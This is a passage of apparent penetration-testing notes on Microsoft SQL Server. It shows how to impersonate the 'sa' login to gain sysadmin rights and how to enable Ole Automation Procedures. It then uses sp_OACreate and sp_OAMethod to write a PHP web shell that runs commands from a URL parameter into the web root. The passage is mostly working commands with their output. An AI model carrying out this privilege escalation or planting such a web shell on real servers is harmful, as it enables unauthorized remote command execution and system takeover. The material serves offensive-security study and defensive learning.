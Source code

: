 * As the returned value `0` indicates, we do not have the sysadmin role, but we can impersonate the `sa` user

**Impersonating the SA User**

```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

```cmd-session
-----------
sa

(1 rows affected)

-----------
          1

(1 rows affected)
```

### MSSQL - Enable Ole Automation Procedures

* To write files using `MSSQL`, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin privileges, and then execute some stored procedures to create the file
* &#x20;[Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option)

```cmd-session
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

**MSSQL - Create a File**

```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

